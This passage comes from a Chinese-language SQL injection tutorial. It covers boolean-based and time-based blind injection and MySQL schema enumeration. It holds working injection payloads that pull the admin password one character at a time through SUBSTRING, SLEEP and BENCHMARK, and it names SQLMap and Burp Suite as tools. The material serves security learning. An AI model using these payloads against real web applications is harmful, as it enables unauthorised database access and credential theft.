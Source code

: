 原理解析参看这篇[博客](https://www.cnblogs.com/smileleooo/p/18202852#floor%E5%87%BD%E6%95%B0%E6%8A%A5%E9%94%99)，关键要理解`floor(rand(0)*2)`被执行多次的含义

### 盲注

盲注相较于上述注入种类，无法获得回显信息，页面无任何信息返回，或者页面只有2种显示状态的区别，观察应用程序的响应时长或页面区别来确定注入是否成功，以及探测数据库中的数据。

盲注的两种主要形式是：
- 基于布尔的盲注（Boolean-based Blind Injection）: 基于布尔条件的判断来获取有关数据库内容的信息，尝试不同的条件并根据应用程序的响应来验证其正确性。
```sql
?id=1 AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1)) = 97
?id=1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='public') > 10
?id=1 AND LENGTH((SELECT database())) = 6
```
- 基于时间的盲注（Time-based Blind Injection）: 使用延时函数或计算耗时操作，以观察应用程序对恶意查询的处理时间。通过观察响应时间的变化，攻击者可以逐渐推断数据库中的数据。
```sql
id=1; IF((SELECT COUNT(*) FROM users) > 0, SLEEP(5), NULL)
-- time-consuming operation (BENCHMARK) that calculates the MD5 hash of the string 'a' 10,000,000 times. 
id=1; IF((SELECT ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1))) = 97, BENCHMARK(10000000, MD5('a')), NULL) 
```

盲注需要搭配自动化的工具不断调整输入探测数据，可以使用`Burp Suite`或者`SQLMap`

## 获取表结构等信息

整理获取特定信息SQL语句，主要针对`MySQL`和`SQLite`2种类型

### MySQL

获取版本
```sql
select version();
```

`information_schema`是mysql自带的一个数据库，包含了各种原数据，可以获取以下信息

获取所有databases
```sql
select group_concat(schema_name) from information_schema.schemata;

show databases;
```

获取当前database
```sql
select database()
```

获取当前数据库的所有表tables
```sql
select group_concat(table_name) from information_schema.tables where 
table_schema = database()
```
